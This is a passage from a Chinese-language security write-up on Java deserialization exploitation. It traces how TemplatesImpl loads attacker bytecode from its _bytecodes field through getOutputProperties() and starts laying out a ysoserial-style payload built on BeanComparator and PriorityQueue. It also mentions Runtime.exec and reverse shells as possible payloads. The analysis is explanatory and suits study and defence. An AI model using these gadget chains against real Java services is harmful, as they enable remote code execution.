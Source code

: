 重点在于`_bytecodes`属性，里面存储了我们的恶意java代码。现在的问题便是：如何触发加载我们的恶意java字节码？

### (2) 触发TemplatesImpl类加载_bytecodes属性中的字节码

在TemplatesImpl类中存在执行链:

```
TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
    TemplatesImpl.getTransletInstance()
      TemplatesImpl.defineTransletClasses()
        ClassLoader.defineClass()
        Class.newInstance()
          ...
            MaliciousClass.<clinit>()
            //class新建初始化对象后，会执行恶意类中的静态方法，即:我们插入的恶意java代码
              ...
                Runtime.exec()//这里可以是任意java代码，比如:反弹shell等等。  

```

这在ysoserial工具中的注释中是可以看到的。在源码中，我们从`TemplatesImpl.getOutputProperties()`开始跟踪，不难发现上面的执行链。最终会在`getTransletInstance`方法中看到如下触发加载自定义ja字节码部分的代码:

```
private Translet getTransletInstance()
throws TransformerConfigurationException {
    .............
    if (_class == null) defineTransletClasses();//通过ClassLoader加载字节码，存储在_class数组中。

    // The translet needs to keep a reference to all its auxiliary 
    // class to prevent the GC from collecting them
    AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();//新建实例，触发恶意代码。  
   ............

```

在`defineTransletClasses()`方法中，会加载我们之前存储在`_bytecodes`属性中的字节码(可以看做类文件)，进而返回类的`Class`对象，存储在`_class`数组中。下面是调试时候的截图：

![](http://drops.javaweb.org/uploads/images/3a1513e0c3f1a4d3bd28f530e7840b9d257c3fce.jpg)

可以看到在`defineTransletClasses()`后，得到类的`Class`对象。然后会执行`newInstance()`操作，新建一个实例，这样便触发了我们插入的静态恶意java代码。如果接着单步执行，便会弹出计算器。

通过以上分析，可以看到：

*   只要能够自动触发`TemplatesImpl.getOutputProperties()`方法执行，我们就能达到目的了。

### (3) 利用BeanComparator比较器触发执行

我们接着看`payload`的代码：

```
final BeanComparator comparator = new BeanComparator("lowestSetBit");

// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
// stub data for replacement later
queue.add(new BigInteger("1"));
queue.add(new BigInteger("1"));  

```
